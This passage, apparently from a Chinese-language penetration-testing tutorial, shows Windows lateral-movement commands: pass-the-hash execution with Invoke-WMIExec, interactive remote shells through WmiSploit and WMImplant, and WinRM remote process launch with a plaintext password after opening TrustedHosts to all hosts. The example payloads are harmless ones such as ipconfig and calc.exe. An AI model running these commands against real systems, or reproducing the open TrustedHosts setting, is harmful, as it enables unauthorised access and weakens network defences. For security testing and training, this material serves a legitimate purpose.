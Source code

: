     
    
    Invoke-WMIExec -Target 10.10.0.10 -Domain test1.com -Username Administrator -Hash 3edc68a5debd735545ddf69fb3c224a8 -Command "cmd /c ipconfig >>c:\ipconfig.txt" -VerboseSharp-WMIExec
    

在域内执行该PS1脚本

**WmiSploit**

  * Enter-WmiShell（建立交互式shell）

    
    
    Enter-WmiShell -ComputerName WIN-D5IP32RU4A9 -UserName Administrator
    

输入指定帐户凭据

利用Enter-WmiShell模块获取工作组交互式shell

利用Enter-WmiShell模块获取域内交互式shell

  * Invoke-WmiCommand(执行命令)

    
    
    Invoke-WmiCommand -ComputerName WIN-D5IP32RU4A9 -ScriptBlock {tasklist}
    

**WMImplant**

> ***注意** ：WMimplant 的功能一旦执行就可以在主菜单中找到。它可以执行文件传输操作、横向移动和主机侦察。
> CHANGE_USER命令做存储凭据使用。它有一个 shell 功能，可以使用 command_exec 触发，文件操作也可以远程执行。*

使用CHANGE_USER后执行命令

使用shell执行命令

文件操作

**WinRM**

> ***注意** ：Windows默认WinRM需要设置信任来源地址，在测试前，请设置信任所有来源地址，也就是允许被任意主机连接。*
    
    
    winrm set winrm/config/client @{TrustedHosts="*"}
    

允许被任意主机连接

    
    
    winrm invoke Create wmicimv2/win32_process @{CommandLine="calc.exe"}
    

在本地弹出计算器

    
    
    winrm invoke Create wmicimv2/win32_process @{CommandLine="calc.exe"} -r:
    https://192.168.8.192:5985
     -u:administrator -p:win@123
    

远程静默启动进程

###  部分意见

